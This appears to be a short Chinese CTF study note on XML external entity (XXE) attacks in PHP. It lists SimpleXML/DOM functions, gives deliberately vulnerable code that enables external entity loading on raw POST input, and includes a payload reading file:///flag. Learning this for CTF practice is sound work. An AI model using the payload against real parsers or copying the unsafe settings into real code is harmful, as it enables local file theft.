 



^
## **XXE函数**
```
引发XEE的危险函数
__construct()
addAttribute()
addChild()
asXML()
attributes()
children()
getDocNamespaces()
getName()
getNamespaces()
registerXPathNamespace()
simplexml_import_dom()
simplexml_load_file()
simplexml_load_string()
xpath()


// 允许加载外部实体
libxml_disable_entity_loader(false);
// xml文件来源于数据流
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
  	// 加载xml实体，参数为替代实体、加载外部子集
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
  	// 把 DOM 节点转换为 SimpleXMLElement 对象
    $creds = simplexml_import_dom($dom);
  	// 节点嵌套
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}

[POST]Payload:
<?xml version="1.0"?>
<!DOCTYPE payload [
<!ELEMENT payload ANY>
<!ENTITY xxe SYSTEM "file:///flag">
]>
<creds>
<ctfshow>&xxe;</ctfshow>
</creds>


类似的
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
```
